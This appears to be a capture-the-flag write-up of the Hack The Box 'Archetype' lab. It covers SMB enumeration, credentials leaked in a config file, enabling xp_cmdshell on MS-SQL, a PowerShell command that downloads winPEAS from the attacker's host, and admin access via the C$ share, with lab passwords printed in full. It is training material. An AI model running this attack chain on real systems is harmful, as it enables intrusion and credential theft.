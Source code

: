 one of the starting point CTF's from HTB *always a great learning opportunity*

# Enumeration

## Nmap
A basic nmap scan to see what were dealing with:
```bash
$ nmap 10.129.88.67
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-24 16:55 CEST
Nmap scan report for 10.129.88.67
Host is up (0.029s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
```

seems to be **MS-SQL** and a **SMB share** let's dig a bit deeper

```bash
$ nmap -sC -sV 10.129.88.67
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-24 17:06 CEST
Nmap scan report for 10.129.88.67
Host is up (0.026s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.88.67:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.88.67:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-05-24T14:49:12
|_Not valid after:  2055-05-24T14:49:12
|_ssl-date: 2025-05-24T15:06:59+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-24T08:06:54-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-24T15:06:50
|_  start_date: N/A
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
```

## SMB
so in the Nmap output we can see that the SMB allows for guest access so let's see what we can find in there
```bash
$ smbclient -L 10.129.88.67
Password for [WORKGROUP\janosch]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

backups looks the most interesting let's have a look at that
```bash
$ smbclient //10.129.88.67/backups
Password for [WORKGROUP\janosch]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020
```

**Contents:**
```json
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

so this **SMB share** just uncovered some passwords for what seems to be the **MS-SQL** server. 

# Exploitation
## MS-SQL
Let's try to logon to the MS-SQL server with the credentials we just found. For this I'm gonna use `mssqlclient.py` from the Impacket GitHub repo.
```bash
$ mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.88.67 -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
..Snip..
SQL (ARCHETYPE\sql_svc  dbo@master)>
```

in order to get command execution we need to enable `xp_cmdshell`

```SQL
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami"
ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL (ARCHETYPE\sql_svc  dbo@master)> enable_xp_cmdshell
INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE;
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami"
output              
-----------------   
archetype\sql_svc 
```

now we can use the `xp_cmdshell` command to run cmd or powershell commands
one of the questions from HTB hinted at using win-peas to find more so let's go ahead and do that

for that we should spin up a Python-3 http server in order to transfer the win-peas batch script over to our target
```bash
┌─[]─[10.10.15.28]─[janosch@pwnbox]─[~/notes/PEASS-ng/winPEAS/winPEASbat]
└──╼ [★]$ ls
README.md  winPEAS.bat
┌─[]─[10.10.15.28]─[janosch@pwnbox]─[~/notes/PEASS-ng/winPEAS/winPEASbat]
└──╼ [★]$ python3 -m http.server 8080
```

in order to actually download the file we will use this payload on our target:
```powershell
xp_cmdshell powershell Invoke-WebRequest -Uri "http://10.10.15.28:8080/winPEAS.bat" -OutFile "$env:USERPROFILE\Downloads\winPEAS.bat"
```

we can run it like any other bash script *just make sure to output to a file otherwise the output is lost* 
```SQL
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "call C:\Users\sql_svc\Downloads\winPEAS.bat > C:\Users\sql_svc\Downloads\Output.txt"
output                             
--------------------------------   
                            

   cription = Invalid namespace

No User exists for *               

NULL                               

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "type C:\Users\sql_svc\Downloads\Output.txt"
..Snip..
```

in the output I found one file that had something interesting in it
```SQL
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
output                                                                    
-----------------------------------------------------------------------   
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!  
```

so in the file we can see someone logging into the backups share with an admin account. The backups share already has guest access but maybe we can access the other shares with these credentials.

## SMB
In [[#SMB]] we found the C$ share let's see if the found credentials work for this
```bash
┌─[]─[10.10.15.28]─[janosch@pwnbox]─[~/notes]
└──╼ [★]$ smbclient \\\\10.129.95.187\\C$ -U administrator
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.129.95.187\C$\
```

Lets go! now we have access to the root directory now we just have to find the flags.

after some digging I found that both flags were stored on the users Desktop's
**user flag:** `C:\Users\sql_svc\Desktop\user.txt`
**root flag:** `C:\Users\administrator\Desktop\root.txt`

# Conclusion
so this was my first real windows CTF and I got stuck a lot at the windows parts especially trying to do Privilege escalation on windows was a pain in the Ass but I could do A lot with the SMB which saved my ass a bit.

**What I learned:**
- You can do A lot of exploitation with MS-SQL
- File transfers are really different on Windows
- How to run scripts in windows terminals
- Always check out SMB shares with `smbclient`